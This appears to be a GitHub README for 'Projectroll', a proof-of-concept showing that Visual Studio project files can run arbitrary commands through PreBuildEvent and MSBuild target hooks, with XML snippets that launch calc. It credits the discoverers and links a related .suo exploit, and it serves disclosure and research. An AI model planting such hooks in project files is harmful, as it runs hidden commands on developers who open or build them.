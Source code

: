 # Projectroll

**Projectroll** exploits vulnerabilities in Visual Studio triggers, targeting project files like `.sln` and `.vcxproj`/`.csproj`. It demonstrates how arbitrary commands can be executed without compilation, revealing security risks in the development environment.

## Features

### 1. **PreBuildEvent**
Executes arbitrary commands before project compilation.
```xml
<PreBuildEvent>
    <Command>
    cmd /c calc
    </Command>
</PreBuildEvent>
```
```xml
<Target Name="GetFrameworkPaths">
    <Exec Command="calc.exe"/>
</Target>
```

## Credits
The vulnerability has been discovered by cjm00n & edwardzpeng (https://x.com/edwardzpeng)

VisualStudio .suo deserialization exploit - https://github.com/moom825/visualstudio-suo-exploit
